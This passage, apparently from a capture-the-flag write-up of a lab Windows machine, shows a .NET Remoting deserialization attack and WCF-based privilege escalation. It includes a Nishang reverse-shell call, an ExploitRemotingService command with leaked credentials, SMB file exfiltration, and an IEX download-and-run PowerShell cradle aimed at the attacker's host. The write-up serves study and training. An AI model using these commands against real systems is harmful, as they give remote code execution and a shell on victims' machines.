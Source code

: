 The _Invoke-PowerShellTcp.ps1_ from the **Nishang** scripts will be used as the reverse shell _(shell.ps1)_.
```
(...)
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 9001
```

Using _ExploitRemotingService_ to send and execute the serialized object on the box:
```
ExploitRemotingService.exe -s --user=debug --pass="SharpApplicationDebugUserPassword123!" tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw AAEAAAD/////AQAAAAAAAAAMA(...)
```

The box will execute the serialized object, which executes the Base64-encoded PowerShell command to download and run _shell.ps1_ and the listener on my IP and port 9001 starts a reverse shell as the user _lars_.

## Privilege Escalation

In the home directory _C:\Users\lars\Documents\wcf_ are more files that seem to be another .NET project.

Compressing the directory:
```
Compress-Archive -Path wcf -DestinationPath wcf.zip
```

Uploading it to our local client:
```
net use x: \\10.10.14.12\share Super1Secure2Pass /user:anyone

copy wcf.zip x:\
```

The acronym **WCF** stands for [Windows Communication Foundation](https://docs.microsoft.com/en-us/dotnet/framework/wcf/whats-wcf).

In the _Client/Program.cs_ it shows that the service is running on port 8889:
```cs
new NetTcpBinding(SecurityMode.Transport),"net.tcp://localhost:8889/wcf/NewSecretWcfEndpoint"
```

In _RemotingLibrary/Remoting.cs_ there are several functions and one of them is called _InvokePowerShell_.

Modifying _Client/Program.cs_ to connect to the IP of the box and also execute the function _InvokePowerShell_:
```cs
// (...)
ChannelFactory<IWcfService> channelFactory = new ChannelFactory<IWcfService>(
             new NetTcpBinding(SecurityMode.Transport),"net.tcp://10.10.10.219:8889/wcf/NewSecretWcfEndpoint"
         );
         IWcfService client = channelFactory.CreateChannel();
         Console.WriteLine(client.GetDiskInfo());
         Console.WriteLine(client.GetCpuInfo());
         Console.WriteLine(client.GetRamInfo());
         Console.WriteLine(client.InvokePowerShell("IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/shell.ps1')"));
     }
```
